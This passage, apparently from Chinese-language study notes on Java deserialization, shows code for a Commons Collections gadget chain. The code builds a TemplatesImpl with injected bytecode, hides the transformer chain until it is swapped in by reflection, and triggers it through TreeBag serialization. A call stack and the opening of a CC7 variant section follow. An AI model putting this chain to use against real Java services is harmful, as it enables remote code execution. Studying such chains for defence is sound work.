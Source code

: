         // 2. 构造 sink
        TemplatesImpl templates = new TemplatesImpl();
        // 要求 1 - 注入恶意字节码
        Field bytecodesField = templates.getClass().getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        bytecodesField.set(templates, new byte[][]{bytes});
        // 要求 2 - 保证 _name 不为 null
        Field nameField = templates.getClass().getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "EndlessShw");
        
        // 3. 构造 chain - 这里不能一开始就放入 ConstantTransformer 和 InstantiateTransformer，
        //    否则在 treeBag.add(templates) 时会触发链条从而导致报错。
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer<>("1"),
                new ConstantTransformer<>("2"),
        };
        ChainedTransformer transformedChain = new ChainedTransformer(transformers);
        TransformingComparator transformingComparator = new TransformingComparator<>(transformedChain);
        
        // 4. 构造 kick-off 并和 chain 相连
        TreeBag treeBag = new TreeBag(transformingComparator);
        treeBag.add(templates);
        
        // 5. 这里通过反射将 chain 改回来
        transformers[0] = new ConstantTransformer<>(TrAXFilter.class);
        transformers[1] = new InstantiateTransformer<>(new Class[]{Templates.class}, new Object[]{templates});
        Field iTransformersField = transformedChain.getClass().getDeclaredField("iTransformers");
        iTransformersField.setAccessible(true);
        iTransformersField.set(transformedChain, transformers);
        
        String serialize = serialize(treeBag);
        unSerialize(serialize);
    }
    ```

2. 调用链大致如下：
    ```java
    /*
        org.apache.commons.collections4.bag.TreeBag.readObject()
            org.apache.commons.collections4.bag.AbstractMapBag.doReadObject()
                java.util.TreeMap.put()
                    java.util.TreeMap.compare()
                        org.apache.commons.collections4.comparators.TransformingComparator.compare()
    */
    ```

## 11. CC7 - 其实就是 CC6 变体

### 11.1 新的 kick-off

1. CC7 的 kick-off 为 `Hashtable`，其他的部分和 CC6 一模一样。

